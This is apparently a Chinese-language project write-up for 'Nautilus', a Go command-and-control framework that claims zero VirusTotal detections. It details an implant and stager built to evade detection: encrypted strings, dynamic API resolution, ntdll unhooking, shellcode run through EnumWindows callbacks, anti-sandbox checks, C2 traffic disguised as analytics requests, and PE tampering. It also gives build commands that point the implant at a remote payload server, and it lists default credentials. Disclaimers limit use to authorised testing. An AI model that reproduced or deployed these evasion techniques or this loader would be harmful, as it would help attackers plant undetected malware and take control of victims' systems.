

# Nautilus C2 — 从零构建0/60 VT免杀的红队C2框架

> **⚠️ 法律声明：本文内容仅供授权安全测试和教育研究使用。未经授权对任何系统使用相关技术属于违法行为。**
>
> **时效性说明**：免杀技术具有很强的时效性，本文测试结果基于2025年6月的杀软版本，随着杀软规则的更新，检测结果可能会发生变化。

## 项目概述

Nautilus 是一个从零构建的轻量级红队 C2（Command & Control）框架，采用 Go 语言编写，涵盖服务端、植入体、分阶段加载器三个核心组件。项目核心目标：**在不依赖商业工具的前提下，实现前沿 C2 的核心能力，并达到主流杀软 0 检出。**

### 环境说明

- **Go 版本**：1.22.4 windows/amd64
- **目标系统**：Windows 10/11 x64
- **编译参数**：`-buildvcs=false`
- **测试平台**：VirusTotal（60个引擎）

### 架构设计



**架构说明**：

- **服务端**：部署在 VPS 上，提供 Web UI 管理界面、实时消息推送、认证登录和任务管理功能
- **Stager**：分阶段加载器，体积小（约2MB），仅包含反沙箱检测、远程下载、XOR解密和内存执行能力
- **Payload**：完整植入体，从服务端下载后在内存中解密执行，不落地磁盘
- **通信协议**：HTTP 请求伪装为前端埋点数据上报，数据使用 AES-GCM 加密

## 免杀技术实现

免杀是一个系统性工程，需要从静态特征、运行时行为、网络通信等多个维度进行对抗。以下是 Nautilus 采用的核心免杀技术。

### 1. 字符串清零

杀软静态扫描依赖字符串特征匹配。YARA规则通过搜索敏感API名（如`VirtualAlloc`）、DLL名（如`ntdll.dll`）识别恶意软件。

**实现方式**：编译期 XOR 加密 + 运行时解密

```go
var encNtDll = []byte{0x59, 0x43, 0x53, 0x5b, 0x5b, 0x19, 0x53, 0x5b, 0x5b}

func xorDec(data []byte, key byte) string {
    out := make([]byte, len(data))
    for i, b := range data {
        out[i] = b ^ key
    }
    return string(out)
}
```

**覆盖范围**：所有DLL名、API名、文件路径均被XOR加密。杀软扫描二进制时无法找到任何敏感字符串。

### 2. API动态解析

仅加密字符串还不够，EDR 会在 IAT（Import Address Table）中挂钩敏感 API 进行监控。传统恶意软件在 IAT 中显式导入 `VirtualAllocEx`、`WriteProcessMemory` 等函数，直接被拦截。

**实现方式**：`syscall.NewLazyDLL` + XOR加密的DLL/API名，运行时动态解析

```go
func ntProc(encName []byte) *syscall.LazyProc {
    return syscall.NewLazyDLL(xorDec(encNtDll, xk)).NewProc(xorDec(encName, xk))
}
```

**效果**：IAT中不出现任何敏感API名，EDR的IAT挂钩失效。

### 3. Ntdll Unhooking

即便绕过了 IAT 挂钩，EDR 仍会在 `ntdll.dll` 的 `.text` 段中插入 int3 断点（inline hook）来监控底层 API 调用。此时需要进行 unhooking 操作。

**实现步骤**：
1. 从磁盘读取干净的 `C:\Windows\System32\ntdll.dll`
2. 在内存中定位当前加载的 ntdll `.text` 段
3. 使用 `NtProtectVirtualMemory` 将 `.text` 段改为 RW 权限
4. 使用 `RtlCopyMemory` 将干净的 `.text` 段覆盖到内存
5. 恢复原始权限

**关键细节**：所有API名本身也是XOR加密的，形成自洽闭环——unhooking 操作本身不会被 hook 检测到。

### 4. 回调执行

字符串加密和 API 动态解析解决了静态检测问题，但运行时的 syscall 调用模式仍然会被监控。杀软通过分析 `syscall.SyscallN` 的调用模式识别 shellcode 执行。

**实现方式**：使用 `EnumWindows` 回调执行 shellcode

```go
CallEnumWindows(shellcodeAddr, 0)
```

**原理**：`EnumWindows` 是合法的 Win32 API，接收回调函数指针。将 shellcode 地址作为回调传入，操作系统在枚举窗口时自然执行 shellcode，完全绕过 syscall 监控。

### 5. 反沙箱检测

沙箱（如 Cuckoo、Any.Run）是杀软动态分析的核心。如果植入体在沙箱中暴露完整行为，很容易被标记为恶意软件。

**检测项**：

| 检测项 | 条件 | 说明 |
|--------|------|------|
| 物理内存 | < 2GB | 沙箱通常分配少量内存 |
| CPU核心数 | < 2 | 沙箱通常单核 |
| 系统运行时间 | < 10分钟 | 沙箱刚启动即执行样本 |
| 用户名 | "user" / "sand" | 沙箱常用默认用户名 |
| 调试器检测 | `IsDebuggerPresent` | 检测调试器附加 |

所有检测 API 同样经过 XOR 加密，沙箱的字符串扫描无法识别这些反检测逻辑。

### 6. 通信伪装

C2 通信是杀软网络检测的重点。HTTP 通信需要伪装成正常流量，避免被特征匹配。

**伪装方式**：HTTP 通信伪装为前端埋点数据上报

```
GET /api/v1/analytics?id=<AES-GCM加密的base64数据>&sid=<sessionID>
Headers:
  User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) Chrome/125.0.0.0
  Accept: application/json, text/plain, */*
  Origin: http://localhost
```

**伪装特征**：
- 路径类似正常数据分析 API
- URL参数名无特殊含义
- 完整浏览器请求头
- AES-GCM + base64 编码，数据段类似正常埋点参数

### 7. PE结构后处理

Go 编译的二进制有独特 PE 结构特征，容易被杀软识别。需要对 PE 文件进行后处理。

**后处理工具链**：

| 工具 | 操作 | 目的 |
|------|------|------|
| `pesectionobf` | 重命名 PE section | 破坏 Go 二进制结构指纹，`.text` → `.code` |
| `pepatch` | 修改 PE 时间戳 | 破坏基于时间戳的家族分类 |
| `AppendOverlayData` | 附加随机数据 | 改变文件哈希，避免哈希比对 |
| 字符串清零 | XOR加密所有敏感字符串 | 破坏 YARA 字符串规则匹配 |

### 8. 分阶段加载

直接投递完整植入体风险较大。采用分阶段加载策略，最小化初始投递体积。

**Stager（第一阶段）**：
- 体积约 2MB
- 仅包含反沙箱 + 下载 + XOR解密 + 内存执行
- 所有 API 名 XOR 加密
- EnumWindows 回调执行 shellcode

**Payload（第二阶段）**：
- 从 C2 远程下载，XOR 加密传输
- 内存中解密执行，不写入磁盘
- 完整 C2 功能（命令执行、文件管理、进程操作等）

## 免杀反模式

在实际测试中，发现了一些适得其反的免杀方法。这些方法不仅没有提升免杀效果，反而触发了更多检测。

| 方法 | 问题 | VT检出 |
|------|------|--------|
| garble `-tiny -literals` | 重组 PE 结构，触发 ClamAV 的 Sliver 签名 | 3/60 |
| 修改 PE section 名为随机字符串 | 触发 Microsoft ML 模型标记为 `Wacatac.B!ml` | 1/60 |
| UPX 压缩 | 被多个引擎标记为压缩恶意软件 | 5/60 |
| 注入无关代码增加熵值 | 增加 PE 熵值触发熵值异常检测 | 2/60 |

**核心原则**：免杀不是"越复杂越好"，而是"越干净越好"。一个没有可疑特征的标准 PE 文件，比一个经过大量修改的异常 PE 文件更容易通过检测。

## 免杀验证

### VirusTotal — 0/60 检出（测试时间：2025年6月）

以下是 VirusTotal 60个引擎的检测结果：

| 引擎 | 结果 | 引擎 | 结果 |
|------|------|------|------|
| Microsoft Defender | CLEAN | ClamAV | CLEAN |
| Kaspersky | CLEAN | BitDefender | CLEAN |
| ESET-NOD32 | CLEAN | Symantec | CLEAN |
| CrowdStrike | CLEAN | TrendMicro | CLEAN |
| Sophos | CLEAN | McAfee | CLEAN |
| Avast | CLEAN | AVG | CLEAN |
| Malwarebytes | CLEAN | Google | CLEAN |
| 火绒 (huorong) | CLEAN | 腾讯 (Tencent) | CLEAN |
| 金山 (Kingsoft) | CLEAN | 瑞星 (Rising) | CLEAN |
| 阿里巴巴 | CLEAN | Avira | CLEAN |
| F-Secure | CLEAN | Fortinet | CLEAN |
| DrWeb | CLEAN | Emsisoft | CLEAN |
| 其余38个引擎 | CLEAN | | |

**VT报告**: https://www.virustotal.com/gui/file/ea99c487a8342f84c4222a4518f188a79d4943efbc9aa0b57e07fb16e10f85e7

## 功能对比

| 功能 | Nautilus | Havoc | Cobalt Strike | Mythic |
|------|----------|-------|---------------|--------|
| Web UI | 内嵌HTML | Qt桌面客户端 | Java桌面 | React Web |
| 认证登录 | HMAC-SHA256 token | 用户密码 | 多用户RBAC | 多用户RBAC |
| WebSocket实时推送 | 有 | 无 | 无 | 有 |
| 加密通信 | AES-GCM | AES-256-CTR | RSA+AES | 可配置 |
| 反沙箱 | 多维度检测 | 有 | 有 | 无 |
| Ntdll Unhooking | 有 | 有 | 有(sleep mask) | 无 |
| API动态解析 | XOR加密 | 有 | 有 | 无 |
| 回调执行 | EnumWindows | 有 | 有 | 无 |
| PE结构混淆 | Section名+时间戳 | 无 | 无 | 无 |
| 文件管理 | 浏览+上传+下载 | 全功能浏览器 | 全功能 | 全功能 |
| 进程管理 | 列表+终止 | 全功能+注入 | 全功能 | 全功能 |
| VT免杀 | 0/60 | 需配置 | 商业级 | 需配置 |

## 使用方法

### 编译服务端

```bash
go build -buildvcs=false -o nautilus-server ./server
```

### 编译植入体

```bash
go build -buildvcs=false -ldflags="-X main.c2Addr=http://YOUR_VPS:8443" -o nautilus-implant .
go run ./evasion-tools/pesectionobf.go nautilus-implant
go run ./evasion-tools/pepatch.go nautilus-implant
```

### 编译 Stager

```bash
go build -buildvcs=false -ldflags="-X main.downloadURL=http://YOUR_VPS:8443/payload -X main.decryptKeyStr=85" -o stager.exe ./stager
go run ./evasion-tools/pesectionobf.go stager.exe
go run ./evasion-tools/pepatch.go stager.exe
```

### 启动

```bash
./nautilus-server
# 浏览器访问 http://YOUR_VPS:8443/ui
# 默认登录: nautilus / nautilus2026
```

## 技术栈

| 组件 | 语言 | 关键技术 |
|------|------|---------|
| Server | Go | HTTP服务器、WebSocket、embed.FS、JSON API |
| Implant | Go | syscall动态解析、AES-GCM、XOR字符串加密 |
| Stager | Go | EnumWindows回调、XOR shellcode解密、反沙箱 |
| PE工具 | Go | 二进制PE解析、section重命名、时间戳修改 |
| Web UI | HTML/CSS/JS | 单文件内嵌、WebSocket实时、暗色主题 |

## 项目结构

```
nautilus/
├── main.go                 # 植入体入口
├── server/
│   ├── main.go             # C2服务端（HTTP+WebSocket）
│   ├── ui.go               # Web UI API处理器
│   └── web/index.html      # 内嵌Web UI页面
├── c2/
│   ├── encode/packet.go    # 通信协议编码/解码
│   └── transport/http.go   # HTTP传输层（伪装埋点API）
├── core/
│   ├── exec.go             # 命令执行
│   ├── fs.go               # 文件操作
│   ├── process.go          # 进程管理
│   ├── privilege.go        # 权限信息
│   ├── sysinfo.go          # 系统信息
│   └── shellcode_windows.go # Shellcode处理
├── evasion/
│   ├── crypto.go           # AES-GCM加密/解密、Base64
│   ├── apiresolve_windows.go # XOR加密API动态解析
│   ├── unhook_windows.go   # Ntdll unhooking
│   ├── sandbox.go          # 反沙箱检测
│   └── pe.go               # PE结构修改工具
├── stager/main_windows.go  # 分阶段加载器
└── evasion-tools/
    ├── pepatch.go          # PE时间戳修改
    └── pesectionobf.go     # PE Section名混淆
```

## 项目地址

GitHub: https://github.com/nk7667/Nautilus

```bash
git clone git@github.com:nk7667/Nautilus.git
```

---

**法律声明**：本项目仅供授权安全测试和教育研究使用。未经授权对任何系统使用本工具属于违法行为。
